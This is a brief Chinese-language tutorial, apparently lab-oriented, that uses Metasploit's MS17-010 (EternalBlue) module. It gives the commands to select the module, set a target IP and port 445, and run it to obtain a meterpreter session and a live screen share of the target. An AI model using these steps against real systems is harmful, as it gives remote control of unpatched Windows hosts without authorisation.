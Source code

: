 ## 永恒之蓝漏洞渗透测试

1. 开启渗透测试工具msfconsole

   打开终端输入msfconsole回车

![](img/blue/1.png)

2. 找到永恒之蓝漏洞

   搜索永恒之蓝漏洞代号ms17-010

   ```
   search ms17-010
   ```

![](img/blue/2.png)

这里2号就是我们要找的漏洞

选择这个漏洞

```
use 2
```

![](img/blue/3.png)

3. 设置添加字段

   可以使用show options查看当前漏洞的可选选项

![](img/blue/4.png)

这里有两个必须添加的字段：RHOSTS和RPORT

```
set rhosts 192.168.43.252
```

```
set rport 445
```

![](img/blue/5.png)

4. 开始渗透

   输入run 或 explit开始渗透

   ![](img/blue/6.png)

   当看到meterpreter即为成功，现在就可以像操作目标主机的命令行一样操作主机了

   例如，屏幕分享

   ```
   screenshare
   ```

   ![](img/blue/7.png)
   
   这时会打开浏览器将目的主机的页面实时显示在浏览器页面

![](img/blue/8.png)
